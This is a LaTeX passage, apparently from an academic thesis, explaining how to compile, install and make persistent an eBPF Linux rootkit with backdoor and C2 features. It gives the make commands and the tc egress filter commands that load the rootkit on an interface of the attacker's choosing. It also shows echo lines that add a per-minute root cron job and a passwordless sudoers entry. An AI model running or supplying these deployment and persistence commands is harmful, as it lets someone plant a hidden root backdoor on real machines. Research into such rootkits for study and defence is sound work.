 As we can observe in the table, there are two Makefiles:
\begin{itemize}
\item A Makefile under src/client to compile only the rootkit client.
\item A Makefile under src to compile all rootkit files.
\end{itemize}

Therefore, the complete compilation process would consist on the commands shown in snippet \ref{code:compilation}.
\begin{lstlisting}[language=C, caption={Rootkit and rootkit client compilation.}, label={code:compilation}]
//Rootkit files
cd src
make
//Rootkit client
cd client
make
\end{lstlisting}

The output programs corresponding to the rootkit will be stored under a directory \textit{src/bin}, while those belonging to helper and client programs will be stored together with the corresponding source code.

It must also be noted that, although the rootkit backdoor and C2 capabilities work out of the box, the rest of the rootkit modules need further configuration. This configuration is set via the src/common/constants.h file, and during the rest of this evaluation we will detail the relevant settings for each individual module.

\subsection{Installation}
Once the rootkit programs are compiled, the \textit{tc.o} and \textit{kit} programs must be loaded orderly. Snippet \ref{code:installation} shows the commands to execute for installing the rootkit.

\begin{lstlisting}[language=C, caption={Rootkit installation steps.}, label={code:installation}]
//TC egress program
sudo tc qdisc add dev enp0s3 clsact
sudo tc filter add dev enp0s3 egress bpf direct-action obj bin/tc.o sec classifier/egress
//Libbpf-powered rootkit
sudo ./bin/kit -t enp0s3
\end{lstlisting}

Note that the network interface enp0s3 may be substituted with any other interface on which the attacker desires the backdoor to be operating.

Finally, we should create the files that guarantee the rootkit persistence, as shown in snippet \ref{code:persist}.
\begin{lstlisting}[language=C, caption={Creation of rootkit persistence files.}, label={code:persist}]
echo "* * * * * osboxes /bin/sudo /home/osboxes/TFG/src/helpers/deployer.sh" > /etc/cron.d/ebpfbackdoor
echo "osboxes ALL=(ALL:ALL) NOPASSWD:ALL #" > /etc/sudoers.d/ebpfbackdoor
\end{lstlisting}

